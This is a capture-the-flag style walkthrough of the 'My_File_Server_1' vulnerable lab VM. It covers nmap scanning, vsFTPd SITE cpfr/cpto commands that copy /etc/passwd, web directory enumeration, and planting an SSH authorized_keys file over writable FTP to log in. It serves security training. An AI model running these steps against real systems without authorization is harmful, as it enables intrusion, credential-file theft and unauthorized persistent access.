










# My_File_Server_1

## Machine Information

- **Machine:** My_File_Server_1
- **Platform:** Offensive Pentesting Lab
- **Repository:** https://github.com/InfoSecWarrior/Offensive-Pentesting-Lab/tree/main/Vulnerable-OVA

---

# Lab Setup

1. Download the vulnerable machine.
2. Import the OVA into VirtualBox.
3. Start the virtual machine.


---

# Network Enumeration

## Discover the Target

```bash
nmap -sn 192.168.2.0/24
```


---

## Port Scan

```bash
nmap -v -p- 192.168.2.179
```



---

# FTP Enumeration

## Connect to FTP (Default Port)

```bash
ftp 192.168.2.179
```

The server displays the **vsFTPd** version.



---

## Connect to FTP on Port 2121

```bash
ftp 192.168.2.179 2121
```



---

## Display Available Commands

```text
?
```



---

## SITE Commands

```text
site help
```

```text
site cpfr /etc/passwd
```

```text
site cpto /var/ftp/pub/passwd
```



---

## Reconnect to FTP

Exit the session and connect again.




---

## Retrieve the Password File

Download the copied `passwd` file and inspect its contents.


---

# Web Enumeration

Visit the target.

```
http://192.168.2.179/
```



---

## Directory Enumeration

```bash
feroxbuster \
-u http://192.168.2.179/ \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
```



---

## Interesting Files

```
http://192.168.2.179/index.html
http://192.168.2.179/readme.txt
```


---

# SSH Access

## Login to FTP Using the Local User

After authentication, create the **.ssh** directory (not `.ss`).


---

## Generate an SSH Key Pair

```bash
ssh-keygen -b 2048 -t rsa -f ./id_rsa -q -N ""
```



---

## Create the Authorized Keys File

```bash
cp id_rsa.pub authorized_keys
```

---

## Upload the Public Key

Change the local working directory.

```text
lcd Downloads
```

Navigate to the remote SSH directory.

```text
cd .ssh
```

Upload the public key.

```text
put authorized_keys
```



> **Note:** The FTP account had write permissions, allowing the public key to be uploaded successfully.

---

## SSH Login

```bash
ssh smbuser@192.168.2.179 -i id_rsa
```


---

## Root Access

After logging in, switch to the root account.


---

# Attack Flow

1. Discover the target.
2. Enumerate open ports.
3. Interact with the FTP service.
4. Copy `/etc/passwd` using FTP `SITE` commands.
5. Enumerate the web server.
6. Authenticate to FTP with a local user.
7. Upload an SSH public key.
8. Log in via SSH using the private key.
9. Obtain root access.